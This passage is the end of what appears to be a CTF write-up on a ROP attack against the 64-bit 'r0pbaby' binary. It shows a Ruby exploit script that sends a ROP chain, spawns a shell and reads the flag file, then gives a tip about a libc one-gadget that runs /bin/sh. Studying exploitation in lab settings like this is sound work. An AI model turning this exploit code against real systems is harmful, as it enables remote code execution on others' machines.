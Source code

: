 ```

<span class="Comment"># Write the ROP chain</span>
puts(<span class="Special">"</span><span class="Constant">Sending the ROP chain...</span><span class="Special">"</span>)
s.write(<span class="Special">"</span><span class="Constant">3</span><span class="Special">\n</span><span class="Special">"</span>)
s.write(<span class="Special">"</span><span class="Special">#{</span>payload.length<span class="Special">}</span><span class="Special">\n</span><span class="Special">"</span>)
s.write(payload)

<span class="Comment"># Tell the program to exit</span>
puts(<span class="Special">"</span><span class="Constant">Exiting the program...</span><span class="Special">"</span>)
s.write(<span class="Special">"</span><span class="Constant">4</span><span class="Special">\n</span><span class="Special">"</span>)

<span class="Comment"># Give sh some time to start</span>
puts(<span class="Special">"</span><span class="Constant">Pausing...</span><span class="Special">"</span>)
sleep(<span class="Constant">1</span>)

<span class="Comment"># Write the command we want to run</span>
puts(<span class="Special">"</span><span class="Constant">Attempting to read the flag!</span><span class="Special">"</span>)
s.write(<span class="Special">"</span><span class="Constant">cat /home/r0pbaby/flag</span><span class="Special">\n</span><span class="Special">"</span>)

<span class="Comment"># Receive forever</span>
<span class="Statement">loop</span> <span class="Statement">do</span>
  x = s.recv(<span class="Constant">1024</span>)

  <span class="Statement">if</span>(x.nil? || x == <span class="Special">""</span>)
    puts(<span class="Special">"</span><span class="Constant">Done!</span><span class="Special">"</span>)
    <span class="Statement">exit</span>
  <span class="Statement">end</span>
  puts(x)
<span class="Statement">end</span>
```

<a name="update1"></a>

## \[update\] Or... do it the easy way

After I posted this, I got a tweet from [@gaasedelen](https://twitter.com/gaasedelen) informing me that libc has a "magic" address that will literally call exec() with "/bin/sh", making much of this unnecessary for this particular level. You can find it by seeing where the "/bin/sh" string is referenced. You can return to that address and a shell pops.

But it's still a good idea to know how to construct a ROP chain, even if it's not strictly necessary. :)

## Conclusion

And that's how to perform a ROP attack against a 64-bit binary! I'd love to hear feedback!